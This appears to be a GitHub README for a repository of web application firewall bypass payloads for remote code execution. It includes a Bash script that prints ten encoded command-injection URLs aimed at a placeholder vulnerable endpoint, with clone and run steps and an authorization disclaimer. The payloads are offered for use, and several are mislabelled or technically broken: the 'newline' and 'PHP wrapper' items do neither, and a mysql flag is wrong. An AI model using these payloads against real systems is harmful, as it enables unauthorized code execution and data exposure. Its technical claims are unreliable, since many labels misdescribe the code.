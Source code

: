 
```markdown
# RCE Payloads for WAF Bypass

This repository contains a Bash script with example payloads designed to demonstrate various techniques for bypassing Web Application Firewalls (WAFs) in the context of Remote Code Execution (RCE) vulnerabilities. The provided payloads are for educational and research purposes only.

## Overview

Web Application Firewalls (WAFs) are commonly used to protect web applications from various types of attacks, including Remote Code Execution (RCE). However, attackers often attempt to bypass these protections using various techniques. This repository provides a Bash script with a collection of example payloads that might be employed to bypass WAFs.

## Script

The `rce_payloads.sh` script contains ten example payloads. Each payload demonstrates a different technique for attempting to exploit RCE vulnerabilities while trying to avoid detection by WAFs.

### Example Payloads

1. **Basic Command Injection with URL Encoding**
2. **Double URL Encoding**
3. **Base64 Encoding**
4. **Unix Time-Based Payload**
5. **Nested Encodings**
6. **Using Environment Variables**
7. **Bypassing WAF with Delimiters**
8. **Payload with SQL Injection**
9. **Using PHP Wrappers**
10. **Bypassing WAF with Newline Characters**

### Script Content

The script is designed to output various payloads that can be used in testing. Each payload is constructed to demonstrate different evasion techniques.

```bash
#!/bin/bash

# Example payloads for RCE with WAF bypass techniques

# 1. Basic Command Injection with URL Encoding
payload1="http://example.com/vulnerable?param=cmd%3D%28%27id%27%29"
echo "Payload 1: $payload1"

# 2. Double URL Encoding
payload2="http://example.com/vulnerable?param=cmd%253D%2528%2527id%2527%2529"
echo "Payload 2: $payload2"

# 3. Base64 Encoding
payload3="http://example.com/vulnerable?param=cmd%3D%28%27echo%20%24%28echo%20c3NoIGNoYW5nZQ%29%27%29"
echo "Payload 3: $payload3"

# 4. Unix Time-Based Payload
payload4="http://example.com/vulnerable?param=cmd%3D%28%27date%20%26%26%20id%27%29"
echo "Payload 4: $payload4"

# 5. Nested Encodings
payload5="http://example.com/vulnerable?param=cmd%253D%2528%2527echo%2520%2524%2528echo%2520c3NoIGNoYW5nZQ%2529%2527%2529"
echo "Payload 5: $payload5"

# 6. Using Environment Variables
payload6="http://example.com/vulnerable?param=cmd%3D%28%27%24%28env%29%27%29"
echo "Payload 6: $payload6"

# 7. Bypassing WAF with Delimiters
payload7="http://example.com/vulnerable?param=cmd%3D%28%27%24%28command%20%24%28echo%20%24%28echo%20id%29%29%29%27%29"
echo "Payload 7: $payload7"

# 8. Payload with SQL Injection
payload8="http://example.com/vulnerable?param=cmd%3D%28%27%24%28mysql%20-U%20root%20-e%20%27SELECT%20user()%27%29%27%29"
echo "Payload 8: $payload8"

# 9. Using PHP Wrappers
payload9="http://example.com/vulnerable?param=cmd%3D%28%27php%20%27%29%27"
echo "Payload 9: $payload9"

# 10. Bypassing WAF with Newline Characters
payload10="http://example.com/vulnerable?param=cmd%3D%28%27%24%28echo%20%22id%22%29%27%29"
echo "Payload 10: $payload10"

# End of Payloads
echo "Payloads listed above can be used for testing purposes. Ensure proper authorization before testing."
```

## Usage

1. **Clone the repository**:

   ```bash
   git clone [https://github.com/soheil-vanaee/rce-waf-bypass.git](https://github.com/soheil-vanaee/rce-payload-bypassing-WAF-.git)
   cd rce-waf-bypass
   ```

2. **Make the script executable**:

   ```bash
   chmod +x rce_payloads.sh
   ```

3. **Run the script**:

   ```bash
   ./rce_payloads.sh
   ```

   This will print out the payloads to the terminal.

## Important Notes

- **Authorization**: Ensure that you have explicit permission before testing any payloads on systems. Unauthorized testing is illegal and unethical.
- **Adjustments**: Payloads may need modification based on the specific WAF and application you are targeting.
- **Ethical Use**: Use these techniques responsibly and only in controlled, authorized environments.


